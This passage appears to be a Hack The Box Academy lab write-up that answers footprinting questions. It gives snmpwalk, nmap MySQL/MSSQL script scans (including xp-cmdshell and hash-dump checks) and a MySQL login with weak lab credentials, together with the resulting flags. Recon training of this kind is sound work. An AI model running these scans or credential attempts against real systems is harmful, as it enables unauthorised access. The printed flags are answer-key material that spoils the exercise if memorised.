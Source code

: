Results:  HTB{983uzn8jmfgpd8jmof8c34n7zio}

#### SNMP

**Enumerate the SNMP service and obtain the email address of the admin. Submit it as the answer.**

```
snmpwalk -v2c -c public $ip
```

Results: devadmin@inlanefreight.htb

**What is the customized version of the SNMP server?**

```
snmpwalk -v2c -c public $ip
```

Results: InFreight SNMP v0.91


 **Enumerate the custom script that is running on the system and submit its output as the answer.**

```
snmpwalk -v2c -c public $ip
```

Results: HTB{5nMp_fl4g_uidhfljnsldiuhbfsdij44738b2u763g}

#### MySQL


**Enumerate the MySQL server and determine the version in use. (Format: MySQL X.X.XX)**

```
sudo nmap -sS -sV --script mysql-empty-password -p 3306 $ip -Pn
```

Results: MySQL 8.0.27


**During our penetration test, we found weak credentials "robin:robin". We should try these against the MySQL server. What is the email address of the customer "Otto Lang"?**

```
mysql -u robin -probin -h $ip
select * from customers.myTable where name LIKE "Otto Lang";
```


Results: ultrices@google.htb

#### MSSQL

**Enumerate the target using the concepts taught in this section. List the hostname of MSSQL server.**

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
```

Results: ILF-SQL-01
